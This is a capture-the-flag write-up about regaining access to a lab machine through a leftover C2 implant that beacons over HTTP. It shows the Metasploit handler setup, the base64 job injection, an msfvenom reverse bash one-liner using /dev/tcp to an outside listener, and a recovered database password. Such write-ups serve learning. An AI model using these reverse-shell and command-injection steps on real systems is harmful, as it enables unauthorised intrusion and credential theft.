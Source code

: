 # Forgotten implant

Forgotten implant. Quite an original box on how to get into an already hacked device where the C2 implant was not removed.

With the help of the forgotten implant you must gain entry again.


## Getting in

As always, start with nmap

nmap -sC -sV -T5 -p- ${IP} -vv -oN box

But it does not find any open ports.

Ok, maybe udp? That matters sometimes. But since udp scan are SLOW as fok, better pass --top-ports 1024 to nmap.

nmap -sC -sV -sU -T5 --top-ports 1024 -vv -oN box ${IP}

blabla
Host is up, received reset ttl 63 (0.032s latency).
Skipping host 10.10.243.126 due to host timeout
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done -- 1 IP address (1 host up) scanned in 905.67 seconds

Nothing!

ok thats new, but as the hint says

"Your port scan is not misleading you"

this must be by design.

Knowing how C2 systems work, then it is only logical that the machine is sending data out and not in.
It's probably sending a beacon, asking the server what to do.

So let's see what tcpdump has to say on the vpn's network interface. tun0

```
sudo tcpdump -i tun0
```

17:42:04.029478 IP ${LIP}.81 > 10.10.169.196.43862: Flags [R.], seq 0, ack 3660637020, win 0, length 0

So it seems that something is sending packets to port 81. okay...

then lets see what by starting netcat.

```
nc -lnvp 81 
```

After some seconds an http request comes in written with python's requests package.

```
GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDhUMTU6NDQ6MDEuODkyOTY5IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

it's sending a beacon to /heartbeat with base64.

the decoded base64 means.

```
{"systeminfo": {"os": "Linux", "hostname": "forgottenimplant"}, "latest_job": {"job_id": 0, "cmd": "whoami"}, "success": false}
```

Aha! It's querying for commands/jobs to do.

Well then, then there are a few options. 

1. We can write a server with a heartbeat endpoint.
2. We can use a real C2 like metasploit

Let's go for option 2, since this box is all about C2.

So fire up metasploit. metasploit -q.
And start catching the beacon with payload meterpreter/reverse_http.

```
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_http

set LPORT 81
set LHOST tun0

run

[*] Started HTTP reverse handler
```

Soon the requests come in and metasploit prints them.

[*] http:/IP:81 handling request from 10.10.243.126; (UUID: g6wztzlc) Unknown request to /heartbeat/eyJ0aW1lIjogIjIwMjMtMDctMzBUMDc6MDQ6MDEuODcyNTQ2IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAiY2F0IHVzZXIudHh0IiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogIlRITXs5MDJlOGU4YjFmNDlkZmViNjc4ZTQxOTkzNWJlMjNlZn1cbiJ9LCAic3VjY2VzcyI6IGZhbHNlfQ== with UA 'python-requests/2.22.0'

So we need to send messages back and with the reverse_http payload all http headers and body and what not can be manipulated.
"show advanced" in meterpreter and there we have HttpUnknownRequestResponse. That's exactly what metasploit is saying! unknown request.

First try to get command execution by base64 encoding a simple ls.

```
{"job_id": 0, "cmd": "ls"}
```

Cyberchef is a handy tool for base64 encoding, the base64 command clutters up your history IMO, although starting the command with a space in zsh/bash will not add it to the bash_history.

So:
set HttpUnknownRequestResponse eyJqb2JfaWQiOiAwLCAiY21kIjogImxzIn0=

And wait. The beacon comes back with.....

"Unknown request to /job-result/eyJqb2JfaWQiOiAwLCAiY21kIjogImxzIiwgInN1Y2Nlc3MiOiB0cnVlLCAicmVzdWx0IjogInByb2R1Y3RzLnB5XG51c2VyLnR4dFxuIn0="

and that base64 string means....

"{"job_id": 0, "cmd": "ls", "success": true, "result": "products.py\nuser.txt\n"}"

We have command execution!

So yeah lets generate a shell with msfvenom and encode it inside the json.

```
msfvenom -p cmd/unix/reverse_bash lhost=tun0 lport=10666 R
```

```
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 70 bytes
bash -c '0<&94-;exec 94<>/dev/tcp/IP/10666;sh <&94 >&94 2>&94'
```

So encoded to base64 we get.

```
set HttpUnknownRequestResponse eyJqb2JfaWQiOiAwLCAiY21kIjogImJhc2ggLWMgJzA8JjEyNy07ZXhlYyAxMjc8Pi9kZXYvdGNwLzEwLjkuNi4xNzkvMTA2NjY7c2ggPCYxMjcgPiYxMjcgMj4mMTI3JyJ9
```

run

start another metasploit and set the payload to cmd/unix/reverse_bash

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp and the correct port and interface
msf6 exploit(multi/handler) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash

run
```
Then run the http payload and wait.
If you get "Soon we get "[*] Accepted the first client connection..." you will have to try again.
No real shell is connected. After some tries a real session will be opened and then we have shell from the beacon.

type 'shell' in metasploit to upgrade to proper bash shell.

from there it's time to go for root, that is covered in other writeups. I tried with metasploit's post exploitation modules.

```
ada@forgottenimplant:~$ cat products.py
cat products.py
import mysql.connector

db = mysql.connector.connect(
    host='localhost', 
    database='app', 
    user='app', 
    password='s4Ucbrme'
    )

cursor = db.cursor()
cursor.execute('SELECT * FROM products')

for product in cursor.fetchall():
    print(f'We have {product[2]}x {product[1]}')

    mysql -h localhost -u app -p
mysql -h localhost -u app -p
Enter password: s4...
```
